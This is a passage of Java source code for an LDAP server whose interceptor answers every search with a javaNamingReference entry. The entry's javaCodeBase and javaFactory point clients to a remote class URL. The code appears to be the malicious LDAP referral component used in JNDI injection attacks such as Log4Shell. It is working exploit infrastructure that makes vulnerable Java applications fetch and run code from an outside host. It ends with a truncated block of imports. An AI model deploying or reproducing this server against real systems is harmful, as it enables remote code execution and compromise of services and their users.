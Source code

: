 ```java
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        /**
         *
         */
        public OperationInterceptor(URL cb) {
            this.codebase = cb;
        }

        /**
         * {@inheritDoc}
         *
         * @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)
         */
        @Override
        public void processSearchResult(InMemoryInterceptedSearchResult result) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            } catch (Exception e1) {
                e1.printStackTrace();
            }

        }

        protected void sendResult(InMemoryInterceptedSearchResult result, String base, Entry e) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if (refPos > 0) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}

```
```java
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;
```